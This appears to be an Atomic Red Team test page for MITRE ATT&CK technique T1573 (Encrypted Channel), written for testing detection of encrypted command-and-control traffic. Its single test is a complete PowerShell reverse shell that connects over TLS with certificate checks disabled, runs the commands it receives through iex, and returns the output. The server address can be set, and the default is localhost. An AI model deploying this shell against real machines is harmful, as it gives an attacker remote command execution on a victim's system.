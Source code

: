 # T1573 - Encrypted Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1573)
<blockquote>Adversaries may employ a known encryption algorithm to conceal command and control traffic rather than relying on any inherent protections provided by a communication protocol. Despite the use of a secure algorithm, these implementations may be vulnerable to reverse engineering if secret keys are encoded and/or generated within malware samples/configuration files.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OpenSSL C2](#atomic-test-1---openssl-c2)


<br/>

## Atomic Test #1 - OpenSSL C2

auto_generated_guid: 21caf58e-87ad-440c-a6b8-3ac259964003

Thanks to @OrOneEqualsOne for this quick C2 method.
This is to test to see if a C2 session can be established using an SSL socket.
More information about this technique, including how to set up the listener, can be found here:
https://medium.com/walmartlabs/openssl-server-reverse-shell-from-windows-client-aee2dbfa0926

Upon successful execution, powershell will make a network connection to 127.0.0.1 over 443.
**Supported Platforms:** Windows




#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| server_ip | IP of the external server | String | 127.0.0.1|
| server_port | The port to connect to on the external server | String | 443|


#### Attack Commands: Run with `powershell`! 


```powershell
$server_ip = #{server_ip}
$server_port = #{server_port}
$socket = New-Object Net.Sockets.TcpClient('#{server_ip}', '#{server_port}')
$stream = $socket.GetStream()
$sslStream = New-Object System.Net.Security.SslStream($stream,$false,({$True} -as [Net.Security.RemoteCertificateValidationCallback]))
$sslStream.AuthenticateAsClient('fake.domain', $null, "Tls12", $false)
$writer = new-object System.IO.StreamWriter($sslStream)
$writer.Write('PS ' + (pwd).Path + '> ')
$writer.flush()
[byte[]]$bytes = 0..65535|%{0};
while(($i = $sslStream.Read($bytes, 0, $bytes.Length)) -ne 0)
{$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data | Out-String ) 2>&1;
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$sslStream.Write($sendbyte,0,$sendbyte.Length);$sslStream.Flush()}
```






<br/>
